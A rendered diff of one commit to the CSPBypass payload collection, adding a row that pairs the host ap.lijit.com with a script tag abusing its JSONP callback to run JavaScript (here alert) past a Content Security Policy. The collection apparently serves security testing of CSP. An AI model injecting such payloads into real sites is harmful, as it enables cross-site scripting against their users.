

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added ap.lijit.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 5: ap.lijit.com | <script src="https://ap.lijit.com/rtb/bid?callback=alert&br={%22id%22:%221%22,%22site%22:{%22domain%22:%22x%22,%22page%22:%22x%22}}"></script> | renniepak
```
